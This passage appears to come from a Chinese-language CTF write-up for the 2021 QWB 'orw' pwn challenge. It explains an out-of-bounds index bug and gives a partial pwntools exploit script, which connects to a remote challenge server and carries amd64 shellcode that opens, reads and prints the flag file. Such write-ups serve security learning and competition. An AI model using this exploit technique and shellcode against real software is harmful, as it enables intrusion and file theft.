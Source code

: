 ![image (12)](2021qwb/image%20(12).png)

直接回车，就能无限输入，摆脱大小限制。

直接利用下标越界，申请一个chunk分配给-25的位置，在输入shellcode实现orw，最后触发。

![image (13)](2021qwb/image%20(13).png)

```python
from pwn import *
#sh=process('./orw')
context(os='linux',arch='amd64')
sh=remote('39.105.131.68',12354)
elf=ELF('./orw')
libc=elf.libc
def pwn():
    shellcode='''
    xor rax, rax
    xor rdi, rdi
    xor rsi, rsi
    xor rdx, rdx
    mov rax, 2
    mov rdi, 0x67616c662f2e
    push rdi
    mov rdi, rsp
    syscall
    mov rdx, 0x100
    mov rsi, rdi
    mov rdi, rax
    mov rax, 0
    syscall
    mov rdi, 1
    mov rax, 1
    syscall
'''
```
